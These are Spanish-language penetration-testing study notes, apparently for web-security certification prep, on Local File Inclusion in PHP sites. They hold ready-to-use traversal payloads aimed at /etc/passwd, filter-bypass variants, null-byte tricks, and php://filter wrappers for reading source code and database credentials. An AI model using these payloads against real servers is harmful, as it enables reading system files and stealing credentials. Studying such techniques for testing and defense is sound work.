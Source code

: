# Local File Inclusion
Es una vulnerabilidad que nos permite visualizar ficheros de la máquina victima a través del navegador web.
Cuando tenemos la opción de vulnerar un LFI  (ejemplo lo pongo después), nos podemos encontrar con restricciones.

## Sin restricción
Basta con poner el nombre del fichero que queremos leer

## Estando enjaulado en /var/www/html
Basta con volver a la raíz con '../'
```
../../../../..//etc/passwd
```

## Con '../' restringido

Pondriamos doble  '....//' ya que la sanitización eliminaría el primer '../' pero quedaría el segundo
```
....//....//....//....//etc/passwd
```

## Con cadenas de texto concretos restringidos

Si tenemos /etc/passwd restringido por ejemplo, podemos jugar con interrogantes, o incluso con barras o './'
```
....//....//....//....//?tc/p?sswd
....//....//....//....//etc///////////passwd
....//....//....//....//etc/./././passwd
```

Incluso si tenemos restringido, que los ultimos 6 caracteres conicidan con 'passwd'
```
....//....//....//....//etc/./././passwd/.
```
## Con forzado de extensiones
si el desarrollador concatena el $filename con por ejemplo .php, el fichero que buscaríamos sería /etc/passwd.php, cosa que no existe. para ello se puede para algunas versiones de PHP aplicar un null byte, con '%00' o '\0'

```
....//....//....//....//etc/passwd%00
....//....//....//....//etc/passwd\0
```


# Jugando con wrappers

Al navegar por un sitio web con php, en la url se hace referencia al fichero, por ejemplo index.php, o about.php. Lo que ocurre que si nos dirigimos a ese fichero, el propio servidor lo va a interpretar y cargará el sitio web.

Para ello jugaremos con un wrapper que nos convierte la petición al fichero php en base64, posteriormente inspeccionamos el código web con 'Clic derecho > inspeccionar'.  y buscamos la cadena en base64. 


Si nos fijamos ```page=courses ``` hace referencia a una página. es común que el código haga una concatenación con la extensión php. de manera que cuando pone page=courses, en realidad se está dirigiendo al fichero courses.php


<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi2.png" />

Teniendo esto claro, podemos jugar con el wrapper ```
```
php://filter/convert.base64-encode/resource=
```

<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi1.png" />

Así estamos accediendo al fichero index.php para ver su contenido. Algo que puede ser útil para visualizar por ejemplo un fichero php de conexión a base de datos, que debe incluir las credenciales de acceso.

también tenemos estos, que nos mostraría directamente el codigo php por pantalla:
```
php://filter/read=string.rot13/resource= 
```
y para descifrar esto, en bash:
```
tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```


Otro ejemplo mas práctico:
```
php://filter/convert.iconv.utf8-utf16/resource=
```
